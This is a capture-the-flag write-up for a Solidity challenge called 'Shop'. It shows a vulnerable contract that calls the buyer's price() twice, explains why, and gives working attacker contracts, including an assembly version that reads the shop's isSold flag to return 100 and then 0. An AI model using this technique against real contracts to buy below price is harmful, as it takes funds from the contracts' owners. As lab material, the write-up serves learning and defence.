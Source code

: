 # 21. Shop

Сan you get the item from the shop for less than the price asked?

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price{gas:3300}() >= price && !isSold) {
      isSold = true;
      price = _buyer.price{gas:3300}();
    }
  }
}
```

## Vulnerability

The issue here is that _buyer could be a statefull contract that tracks the calls to `price()` in order to return two different values.
The first one `100` or more to pass `if (_buyer.price{gas:3300}() >= price && !isSold)` and the second one as low as possible to pay less on `price = _buyer.price{gas:3300}();`.

The naive approach of using a state variable doesn't work as writing to storage cost 20K gas, much more than the 3300 gas given...

A second approach was to read the `isSold` variable from the Shop contract.

```solidity
contract AttackerNaive {
    IShop immutable targetContract;
 
    constructor(IShop _targetContract) {
        targetContract = _targetContract;
    }

    function attack() public {
        targetContract.buy();
    }

    function price() public view returns (uint256) {
      if (targetContract.isSold() == false) {
        return 100;
      }

      return 0;
    }
}
```

But it doesn't work either as there is not enough gas... Solidity's bytecode contains many unnecessary OPCODES that just eat away the little bit of gas we were given. Plus it may read from storage depending on the mutability modifier you put on `targetContract` setting it to `immutable` or `constant` has the same result : revert..

So I went for an assembly version to have more control on the OPCODES and ensure no storage access for a lesser overall gas cost :

```solidity
contract Attacker {
    IShop immutable targetContract;
 
    constructor(IShop _targetContract) {
        targetContract = _targetContract;
    }

    function attack() public {
        targetContract.buy();
    }

    function price() public view returns (uint256 p) {

        bytes4 sig = 0xe852e741; // keccak256("isSold()")
        address addr = 0xCa305778dC31fc201e741812fFeC903B2E6c6E05; // Change it for your instance address

        assembly {
            let rvalue := mload(0x40)
            let ptr := add(rvalue, 0x20)
            mstore(ptr, sig)
            mstore(0x40, add(rvalue, 0x40))
            let success := staticcall(3000, addr, ptr, 4, rvalue, 32)

            switch mload(rvalue)
            case 0 {
              p := 100
            }
            default {
              p:= 0
            }
        }
    }
}
```
Which just does the same thing as the naive version but in a cheaper way. This code passes the challenge.
